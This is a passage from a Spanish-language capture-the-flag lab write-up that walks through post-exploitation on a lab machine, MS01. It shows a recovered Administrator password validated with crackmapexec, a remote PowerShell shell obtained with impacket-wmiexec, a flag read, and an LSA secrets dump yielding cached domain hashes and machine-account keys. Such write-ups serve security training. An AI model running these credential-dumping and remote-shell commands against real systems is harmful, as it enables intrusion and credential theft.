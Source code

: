 ```powershell
    UserName         : MS01\Administrator
    Credential       : FWErfsgt4ghd7f6dwx

PS C:\Users\elliot.MS01\Desktop>
```

Al comprobar la contraseña del usuario "Administrator" localmente con `crackmapexec`, recibimos una confirmación de que es válida, lo que nos indica que tenemos acceso total al sistema. Podemos proceder a conectarnos con `wmiexec` y obtener una shell de PowerShell como este usuario.

```bash
❯ crackmapexec smb ms01.megaairline.local -u Administrator -p FWE*************}f6dwx --local-auth
SMB         ms01.megaairline.local 445    MS01             [*] Windows 10.0 Build 17763 x64 (name:MS01) (domain:MS01) (signing:False) (SMBv1:False)  
SMB         ms01.megaairline.local 445    MS01             [+] MS01\Administrator:FWErf*************}dwx (Pwn3d!)
```

```powershell
❯ impacket-wmiexec WORKGROUP/Administrator:FWEr*************}6dwx@ms01.megaairline.local -shell-type powershell  
Impacket v0.11.0 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
PS C:\> whoami
ms01\administrator

PS C:\> type C:\Users\Administrator\Desktop\flag.txt
ASCENSION{sL4ck*************}
```
Entiendo. Al realizar el volcado de los secretos LSA de este equipo, descubrimos varios hashes en formato mscash2, uno de los cuales corresponde a un usuario llamado "anna" que aún no hemos utilizado. Aunque el diccionario predeterminado "rockyou.txt" no resultó útil en este caso, al probar con contraseñas que tenemos del mismo laboratorio, descubrimos que "anna" reutiliza la contraseña del usuario "Administrator" en MS01.

```bash
❯ crackmapexec smb ms01.megaairline.local -u Administrator -p FWErfsgt4ghd7f6dwx --local-auth --lsa
SMB         ms01.megaairline.local 445    MS01             [*] Windows 10.0 Build 17763 x64 (name:MS01) (domain:MS01) (signing:False) (SMBv1:False)
SMB         ms01.megaairline.local 445    MS01             [+] MS01\Administrator:FWErfsgt4ghd7f6dwx (Pwn3d!)
SMB         ms01.megaairline.local 445    MS01             [+] Dumping LSA secrets
SMB         ms01.megaairline.local 445    MS01             MEGAAIRLINE.LOCAL/Administrator:$DCC2$10240#Administrator#3ea6e70c7142de7e521195f33086a2bf: (2021-06-09 12:56:43)
SMB         ms01.megaairline.local 445    MS01             MEGAAIRLINE.LOCAL/elliot:$DCC2$10240#elliot#1985a8159434672943be0d4f94cea4b2: (2020-10-16 15:54:05)
SMB         ms01.megaairline.local 445    MS01             MEGAAIRLINE.LOCAL/anna:$DCC2$10240#anna#beff6c5d84183e72d1ef69f18051ed49: (2020-10-14 14:54:00)
SMB         ms01.megaairline.local 445    MS01             MEGAAIRLINE\MS01$:aes256-cts-hmac-sha1-96:a134ed2a75cbd3ff0be93c11d979fecd5cf81ff7c9194b8eea3c368efb5d8b3c
SMB         ms01.megaairline.local 445    MS01             MEGAAIRLINE\MS01$:aes128-cts-hmac-sha1-96:a271a2cc8d68a84c3ee70450a976bfdc
SMB         ms01.megaairline.local 445    MS01             MEGAAIRLINE\MS01$:des-cbc-md5:c76e529e62c28ae0
SMB         ms01.megaairline.local 445    MS01             MEGAAIRLINE\MS01$:plain_password_hex:40e0e091a87bcb8ef7b8d715da6ebe499ab5fa7494a3d2c4f704a871f131ab5908d97abde6ef23214fd85d209067b0dc14b606407308a6fd5e190c465f91868de51efc531baae61087b2ad4fd5509433c3f9c648e130e4e3680f49acd3d94804a3d7437f859997d11ed885f8af3f937842004b7dfca47a2ac977534a4244bfcfa2fa73bd0cbf3618c54aff2e17fd54b7ad270c9c1c9c4f68277a19b8885a1d53cfa5f1e43e7f1bacfabcb6b2a8fa570bbe2310365d9b49aedf48c660cddf166f145ac7a9a72b584849ec7605719c3f71d0d132ab3824fac0db227a859af2148dbbd551824133acd775119b5b86c3d9ca  
SMB         ms01.megaairline.local 445    MS01             MEGAAIRLINE\MS01$:aad3b435b51404eeaad3b435b51404ee:1a60da9a2479af44780749249ed6248f:::
```